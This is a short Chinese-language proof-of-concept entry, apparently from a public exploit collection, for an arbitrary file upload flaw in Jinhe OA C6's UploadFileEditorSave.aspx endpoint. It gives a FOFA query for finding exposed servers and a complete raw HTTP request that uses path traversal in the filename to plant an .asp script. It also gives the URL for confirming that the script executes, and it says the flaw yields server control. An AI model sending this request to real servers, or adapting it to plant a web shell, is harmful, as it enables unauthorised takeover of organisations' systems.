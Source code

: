 ## 金和OA_uploadfileeditorsave接口存在任意文件上传漏洞

金和-c6 uploadfileeditorsave 任意文件上传，攻击者可通过此漏洞获取服务器权限

## fofa
```
app="金和网络-金和OA"
```

## poc
```
POST /C6/Control/UploadFileEditorSave.aspx?filename=\....\....\C6\qps4cckjuz.asp HTTP/1.1
Host: your_ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
Connection: close
Content-Length: 191
Content-Type: multipart/form-data; boundary=----9fh1lo9qobtszaiahg6v
Accept-Encoding: gzip, deflate

------9fh1lo9qobtszaiahg6v
Content-Disposition: form-data; name="file"; filename="qps4cckjuz.jpg"
Content-Type: image/png

<% response.write(111*111)
%>

------9fh1lo9qobtszaiahg6v--
```
![image](https://github.com/wy876/POC/assets/139549762/5bb65609-982b-4ebb-9242-3da526eee36b)

访问上传文件路径：
http://your_ip/C6/qps4cckjuz.asp
